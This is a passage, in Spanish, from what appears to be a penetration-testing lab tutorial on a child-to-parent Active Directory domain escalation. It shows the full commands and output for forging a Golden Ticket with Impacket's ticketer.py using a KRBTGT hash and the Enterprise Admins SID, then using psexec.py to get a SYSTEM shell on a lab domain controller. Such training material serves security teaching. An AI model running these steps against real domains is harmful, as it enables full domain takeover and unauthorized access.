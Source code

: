 - El hash KRBBTGT para el dominio secundario:`9d765b482771505cbe97411065964d5f`
- El SID del dominio secundario:`S-1-5-21-2806153819-209893948-922872689`
- El nombre de un usuario de destino en el dominio secundario (¡no es necesario que exista!):`hacker`
- El FQDN del dominio secundario:`LOGISTICS.INLANEFREIGHT.LOCAL`
- El SID del grupo de administradores empresariales del dominio raíz:`S-1-5-21-3842939050-3880317879-2865463114-519`

A continuación, podemos usar [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) del kit de herramientas Impacket para construir un Golden Ticket. Este ticket será válido para acceder a los recursos del dominio secundario (especificado por `-domain-sid`) y del dominio principal (especificado por `-extra-sid`).

#### Construyendo un Boleto Dorado usando ticketer.py

```shell-session
lilscott6x9@htb[/htb]$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for LOGISTICS.INLANEFREIGHT.LOCAL/hacker
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in hacker.ccache
```

El ticket se guardará en nuestro sistema como un archivo [caché de credenciales (ccache)](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html), que es un archivo utilizado para guardar las credenciales de Kerberos.  La configuración de la variable de entorno `KRB5CCNAME` le indica al sistema que utilice este archivo para los intentos de autenticación Kerberos.
#### Configuración de la variable de entorno KRB5CCNAME

```shell-session
lilscott6x9@htb[/htb]$ export KRB5CCNAME=hacker.ccache 
```

Podemos comprobar si podemos autenticarnos correctamente en el controlador de dominio del dominio principal utilizando [la versión de Psexec de Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) . Si tiene éxito, seremos colocados en un shell del SISTEMA en el controlador de dominio de destino.
#### Obtener un shell de SISTEMA usando psexec.py de Impacket

```shell-session
lilscott6x9@htb[/htb]$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 172.16.5.5.....
[*] Found writable share ADMIN$
[*] Uploading file nkYjGWDZ.exe
[*] Opening SVCManager on 172.16.5.5.....
[*] Creating service eTCU on 172.16.5.5.....
[*] Starting service eTCU.....
[!] Press help for extra shell commands
```